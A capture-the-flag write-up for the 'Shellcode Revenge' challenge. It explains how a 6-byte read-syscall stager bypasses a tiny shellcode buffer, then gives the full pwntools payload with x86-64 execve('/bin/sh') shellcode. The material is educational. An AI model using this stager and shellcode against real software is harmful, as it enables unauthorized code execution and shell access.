 # Shellcode Revenge

First, let's take a look at `shellcode_revenge.c`:

  ```C
  #include<stdio.h>

  char code[6];

  int main(){
      setvbuf(stdout,0,2,0);
      puts( "Give me your shellcode , I will execute it directly , but only 6 bytes :(");
      puts( "Six bytes is enough for excellent hacker :)" );

      int (*yuawn)() = (int(*)())code;

      read( 0 , code , 6 );

      puts("Your shellcode is running... 66666666");
      yuawn();

      return 0;
  }
  ```
We can see that `read( 0 , code , 6 )` completely fills up `code[6]` so it is impossible to use that for overflow and yet it is impossible to insert a shellcode that runs `execve("/bin/sh\0", 0, 0)` in 6 bytes.

So, let's go on to `objdump -d shellcode_revenge`:
  
  ```
  400637:	48 c7 45 f8 59 10 60 	movq   $0x601059,-0x8(%rbp)
  40063e:	00 
  40063f:	ba 06 00 00 00       	mov    $0x6,%edx
  400644:	be 59 10 60 00       	mov    $0x601059,%esi
  400649:	bf 00 00 00 00       	mov    $0x0,%edi
  40064e:	b8 00 00 00 00       	mov    $0x0,%eax
  400653:	e8 78 fe ff ff       	callq  4004d0 <read@plt>
  ```
  
We can see that  `read( 0 , code , 6 )` will read to the address `0x601059`, which is the beginning of `code`.

But, we still don't know what to put for a 6-byte shellcode.

Now, it is time for `gdb-peda` and check what are in the registers at the time `yuawn()`, which is our shellcode, is going to run:

  ![gdb-peda](gdb-peda.jpg)
  
And we can find something interesting...

First, under Linux x86-64 environment, the id and parameters for system call `read` are:

  * rax = 0
  * rdi = 0
  * rsi = pointer to store
  * rdx = length to read
  
From gdp-peda, we can see:

  * rax = 0
  * rdi = 0x1
  * rsi = 0x7fff7dd26a3
  * rdx = 0x601059
  
Wow! They are almost the same!  

What we need to do is make rdi = 0 and make rsi = 0x601059 to read again. (rdx does not matter since we do not have a read limit)

With the help of [online assembler](http://shell-storm.org/online/Online-Assembler-and-Disassembler/), I was able to find a 6-byte shellcode to execute read.

First, of course, `syscall` is needed, which is `\x0f\x05`. So, 4 more bytes are needed before it.

Next, an easy one -- make rdi = 0. I tried `mov rdi, 0` `mov edi, 0` `mov dil, 0` these are still too long. 

Then I remeber one `dec edi`, which will be `\xff\xcf`, perfect!   
  * Note: I later found out that `xor edi, edi` is also 2 bytes
  
Finally, last part: make rsi = 0x601059. This was hard, but after googling, I found a method that I could try -- `xchg`.
So, `xchg edx,esi`, which is `"\x87\xf2"`, hmmmmm 2 bytes!

So, the 6-byte shellcode will be:

    "\x87\xf2\xff\xcf\x0f\x05" 
    
When `yuawn()` runs the shellcode it will start another read, which will look like `read(0, code, a large number)`. Therefore, we need to overwrite the original 6-byte shellcode with padding first, then follow up with the shellcod used in the previous question.

In the end, the payload will look like:

  ```python
  p.sendline(b"\x87\xf2\xff\xcf\x0f\x05"+ b"\x90"*6 +
	   b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")
  ```
  
    



